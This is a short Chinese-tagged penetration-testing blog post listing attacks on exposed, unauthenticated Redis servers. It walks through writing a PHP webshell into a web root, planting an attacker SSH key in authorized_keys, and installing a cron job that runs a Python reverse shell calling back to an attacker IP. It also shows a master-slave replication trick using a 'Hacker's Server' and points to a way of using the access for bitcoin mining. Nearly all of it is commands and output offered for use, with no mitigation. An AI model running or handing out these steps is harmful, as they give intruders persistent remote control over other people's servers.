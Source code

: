 ```yaml
---
layout:     post
title:      "Redis Hacking Tips"
subtitle:   "collection"
date:       2017-02-09
author:     "Urahara"
header-img: "img/86a1b907d54bf7010394bf316e183e67.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - database	

---
```


### Get Webshell

​	You must know the physical path of the Web site 

```Bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​	If the webshell access exception, you can empty the database after backup and try again, remember to restore the database

### Get SSH--Crackit

1. Generate a ssh public-private key pair on your pc: **ssh-keygen -t rsa**

2. Write the public key to a file : **(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt**

3. Import the file into redis : **cat foo.txt | redis-cli -h 10.85.0.52 -x set crackit**

4. Save the public key to the authorized_keys file on redis server : 

   ```Bash
   root@Urahara:~# redis-cli -h 10.85.0.52
   10.85.0.52:6379> config set dir /home/test/.ssh/
   OK
   10.85.0.52:6379> config set dbfilename "authorized_keys"
   OK
   10.85.0.52:6379> save
   OK
   ```

5. Finally, you can ssh to the redis server with private key : **ssh -i id_rsa test@10.85.0.52**


### Get Reverse Shell—Crontab

```Bash
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

> The above command for Ubuntu, Centos need to be adjusted to：
>
> redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Master-Slave Moudle

​	The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```








